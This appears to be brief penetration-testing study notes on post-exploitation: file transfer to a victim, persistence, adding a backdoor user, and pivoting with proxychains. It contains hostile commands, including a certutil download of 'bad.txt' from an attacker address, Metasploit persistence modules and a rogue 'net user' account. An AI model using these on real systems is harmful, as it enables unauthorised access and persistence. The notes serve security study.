 ## Post Exploitation - Review

### File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add

---

### Pivoting - Using initial victim as a conduate to reach new location only reachable through victim  

#### Proxychains: Bind port, Proxychain, Proxy  
    * device 1 has access to device 2 which is not reachable from our attacker machine device 0  
    * proxychain and bind port is setup on device 0  
    * proxy tunnel on devive 1  
    * target is device 2


* ssh (into device 1 and setup a proxy tunnel with a bind port, so all traffic will be proxied through device 1, between device 0 and 2.)
* proxychains nmap 10.10.10.225 | scans device 2 with standard nmap syntax, because this is pchained it may be unstable on syn scanning. So switch to -sT as tcp scanning could be better

---

### Cleaning up


